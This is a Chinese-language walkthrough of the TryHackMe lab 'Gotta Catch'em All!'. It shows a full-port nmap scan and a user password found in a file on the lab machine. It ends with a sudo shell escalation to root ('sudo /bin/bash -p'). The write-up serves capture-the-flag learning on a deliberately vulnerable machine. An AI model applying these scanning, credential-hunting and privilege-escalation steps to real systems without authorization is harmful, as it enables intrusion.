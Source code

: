 ```yaml
---
sidebar_position: 45
tags: [Easy, Linux, 信息泄露, SUDO]
title: "Gotta Catch'em All!"
description: "Gotta Catch'em All!"
sidebar_label: "Gotta Catch'em All!"
slug: /tryhackme/45
---
```

# Gotta Catch'em All!
## 端口扫描
```bash
root@ip-10-10-107-68:~# nmap -sT -p- --min-rate 1000 10.10.149.107

Starting Nmap 7.60 ( https://nmap.org ) at 2023-08-30 07:40 BST
Nmap scan report for ip-10-10-149-107.eu-west-1.compute.internal (10.10.149.107)
Host is up (0.0013s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:C2:8F:E3:F1:AD (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 2.80 seconds
```

## 80 - HTTP
查看网页后我进行了目录扫描但是没有任何的数据, 所以回到网页端查看源码

<div style={{textAlign:'center'}}>

  ![20240629230242](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240629230242.png)

</div>

这里让我看控制台, 此时我发现

<div style={{textAlign:'center'}}>

  ![20240629230253](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240629230253.png)

</div>

经过搜寻我发现了这里其实是精灵宝可梦的名字, 之后看了 WP 后才发现上面的那一段内容其实是用户的 SSH 账号

## 后渗透
### pokemon
<div style={{textAlign:'center'}}>

![20240629230355](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240629230355.png)

</div>

### pokenmon —> ash
经过查找后我发现了这个文件

```bash
pokemon@root:~/Videos/Gotta/Catch/Them/ALL!$ ls -al
total 12
drwxrwxr-x 2 pokemon pokemon 4096 Jun 22  2020 .
drwxrwxr-x 3 pokemon pokemon 4096 Jun 22  2020 ..
-rw-r--r-- 1 pokemon root      78 Jun 22  2020 Could_this_be_what_Im_looking_for?.cplusplus
pokemon@root:~/Videos/Gotta/Catch/Them/ALL!$ cat Could_this_be_what_Im_looking_for\?.cplusplus 
# include <iostream>

int main() {
	std::cout << "ash : pikapika"
	return 0;
```

这里告诉了我 ash 用户的密码, 借此进行登陆

![20240629230443](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240629230443.png)

### ash —> root

用户 ash 具有 SUDO 特权直接执行即可

```bash
ash@root:/home/pokemon/Videos/Gotta/Catch/Them/ALL!$ sudo -l
[sudo] password for ash: 
Matching Defaults entries for ash on root:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User ash may run the following commands on root:
    (ALL : ALL) ALL
ash@root:/home/pokemon/Videos/Gotta/Catch/Them/ALL!$ sudo /bin/bash -p
root@root:/home/pokemon/Videos/Gotta/Catch/Them/ALL!# id
uid=0(root) gid=0(root) groups=0(root)
```